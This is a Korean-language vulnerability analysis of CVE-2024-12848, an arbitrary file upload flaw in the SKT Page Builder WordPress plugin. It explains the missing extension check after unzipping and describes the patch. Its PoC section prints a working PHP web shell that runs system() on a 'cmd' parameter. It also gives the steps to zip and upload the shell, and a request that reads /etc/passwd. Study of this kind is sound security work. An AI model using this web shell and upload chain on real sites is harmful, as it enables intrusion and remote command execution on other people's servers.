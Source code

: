 # CVE-2024-12848

## Index
* [📌 Analysis](#📌-analysis)
    * [1. 개요](#1-개요)
    * [2. 취약점 분석](#2-취약점-분석)
* [📌 PoC](#-poc)
    * [1. 웹 쉘(WebShell) 준비](#1-웹-쉘webshell-준비)
    * [2. 웹 쉘(WebShell) 압축 하기](#2-웹-쉘webshell-압축-하기)
    * [3. 웹 쉘 업로드](#3-웹-쉘-업로드)
    * [4. 웹 쉘 확인](#4-웹-쉘-확인)
* [📌 패치 확인](#-패치-확인)

## 📌 Analysis

### 1. 개요

`CVE-2024-12848` 취약점은 WordPress 플러그인 SKT Page Builder의 4.7 버전 이하에서 발견된 임의 파일 업로드 취약점입니다. 이 취약점은 SKT Page Builder 플러그인 대시보드의 'Manage Libraries' 메뉴에서 라이브러리 업로드 시 발생합니다.

취약점은 파일 업로드 처리 중 `addLibraryByArchive` 함수가 파일 확장자 필터링을 제대로 수행하지 않아 발생했습니다. 이로 인해 구독자(Subscriber) 이상의 권한을 가진 인증된 사용자가 웹 쉘과 같은 악성 파일을 업로드하여 원격 코드 실행을 수행할 수 있습니다.

### 2. 취약점 분석

취약점이 트리거되는 페이지는 SKT Builder 플러그인 대시보드의 ‘Manage Libraries’ 메뉴(`/wp-admin/admin.php?page=sktbuilder-manage-libs`) 입니다.

![image](images/image-001.png)

해당 메뉴에서 ‘Upload a SKT Builder library’를 선택하고 ‘Add Library’ 버튼을 클릭하여 파일을 업로드하면 `/wp-content/plugins/skt-builder.4.7/sktbuilder.php` 파일 내 `Sktbuilder` 클래스의 `addNewLib` 함수가 호출됩니다. 

이후 해당 함수는 파일 업로드 처리를 위해 요청 받은 파일 데이터 `$_FILES['lib_file']` 를 함수 `addLibraryByArchive` 의 인자로 전달하게 됩니다.

![image](images/image-002.png)

이어서 함수 `addLibraryByArchive` 는 전달받은 파일 데이터 `$_FILES['lib_file']` 의 파일 확장자가 압축 파일(`application/zip`)인지 필터링을 수행하고 있습니다.

이후 해당 압축 파일을 `unzip_file` 함수를 이용하여 `$upload_dir` 경로에 압축 해제를 수행하고 있습니다. 이때, 압축 해제된 파일에 대한 파일 확장자 필터링이 존재하지 않아 압축 파일 내부에 PHP 웹 쉘과 같은 악성 파일을 포함시켜 업로드가 가능합니다. 

![image](images/image-003.png)

## 📌 PoC

### 1. 웹 쉘(WebShell) 준비

아래의 코드를 가지는 PHP 웹 쉘 파일(`webshell.php`)을 생성합니다.

```php
<?php
    if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
?>
```

![image](images/image-004.png)

### 2. 웹 쉘(WebShell) 압축 하기

이후 생성한 PHP 파일을 압축하여 ZIP 파일로 만듭니다.

```bash
zip webshell.zip webshell.php # 파일 압축
zip -sf webshell.zip # 압축된 파일 확인
```

![image](images/image-005.png)

### 3. 웹 쉘 업로드

SKT Builder 플러그인 대시보드 ‘Manage Libraries’ 메뉴(`/wp-admin/admin.php?page=sktbuilder-manage-libs`)로 이동한 뒤 아래와 같이 압축한 웹 쉘 파일(`webshell.zip`)을 업로드합니다.

![image](images/image-006.png)

그럼 HTTP 요청 패킷이 아래와 같이 전송됩니다.

![image](images/image-007.png)

### 4. 웹 쉘 확인

이후 SKT Builder 플러그인의 업로드 디렉터리(`/wp-content/uploads/sktbuilder/`)를 보면 아래와 같이 웹 쉘이 정상적으로 압축 해제되어 있는 것을 확인할 수 있습니다.

![image](images/image-008.png)

그 다음 브라우저를 통해 웹 쉘이 업로드된 경로를 요청하면 URL 파라미터 `cmd` 로 전달된 데이터가 시스템 명령어로 전달되어 실행되는 것을 확인하실 수 있습니다.

```bash
/wp-content/uploads/sktbuilder/webshell.php?cmd=cat+/etc/passwd
```

![image](images/image-009.png)

## 📌 패치 확인

패치된 버전에서는 압축 파일을 해제한 다음 압축 해제된 파일들의 확장자를 검사하여 `.json` 확장자를 가진 파일만 업로드되도록 제한하고 있습니다.

> https://plugins.trac.wordpress.org/changeset/3213786/skt-builder/trunk/sktbuilder.php#file0
> 

![image](images/image-010.png)